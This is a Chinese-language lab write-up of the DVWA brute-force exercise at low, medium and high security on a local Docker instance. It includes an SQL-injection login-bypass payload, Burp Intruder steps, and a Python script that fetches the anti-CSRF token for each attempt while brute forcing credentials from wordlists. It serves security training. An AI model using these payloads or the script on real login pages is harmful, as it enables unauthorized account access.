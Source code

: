 <center>Brute Force</center>





[toc]









## Brute Force

> 暴力破解







### 1. low

> 低级

> 看代码 [url](http://192.168.0.111:8000/vulnerabilities/view_source.php?id=brute&security=low)

```shell
# docker
docker exec -it dvwa bash

# 进入目录 
cd /var/www/html

# 查看源码
```

> sql注入问题：

```shell
# sql 语句
SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';

# admin' or '1'='1
SELECT * FROM `users` WHERE user = admin' or '1'='1 AND password = '$pass'
```





### 2. medium

> 中级
>
> 源码：[url](http://192.168.0.111:8000/vulnerabilities/view_source.php?id=brute&security=medium)

mysqli_real_escape_string [菜鸟](https://www.runoob.com/php/func-mysqli-real-escape-string.html)

多了这个过滤方法： 

```shell
转义特殊字符： 编码的字符是 NUL（ASCII 0）、\n、\r、\、'、" 和 Control-Z。
```

> 开始暴力破解：brup抓包。

```shell
1. proxy 抓包

2. 发送到intruder

3. 对密码进行爆破，看length。 不一样内个可能就是密码
```





### 3. high

> 高级
>
> 源码：[url](http://192.168.0.111:8000/vulnerabilities/view_source.php?id=brute&security=high)

```shell
# token 校验
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
```

> 服务端返回一个token给客户端，客户端隐藏的`input`提交给客户端校验

```html
<input type='hidden' name='user_token' value='42f15b92219b40fc0aa2f1f8215fdf56' />
```

```python
# 脚本爆破
from bs4 import BeautifulSoup
import requests


header = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36",
    "Cookie": "PHPSESSID=5skbhhtisu1kf4vfe8jvh4a2l5; security=high"
}


url = "http://192.168.0.111:8000/vulnerabilities/brute/"


def get_token(url, headers):
    response = requests.get(url, headers=headers)
    html = response.content.decode("utf-8")
    soup = BeautifulSoup(html, "html.parser")
    user_token = soup.find("input", {"name": "user_token"})["value"]
    return user_token



i = 0
for admin in open("admin.txt", "r"):
    for password in open("password.txt", "r"):
        user_token = get_token(url, header)
        #  payload
        data = {
            "username": admin.strip(),
            "password": password.strip(),
            "Login": "Login",
            "user_token": user_token
        }
        i = i + 1
        response = requests.get(url, params=data, headers=header)
        print(f"[{i}] {admin.strip()}:{password.strip()},{len(response.content)}")

```

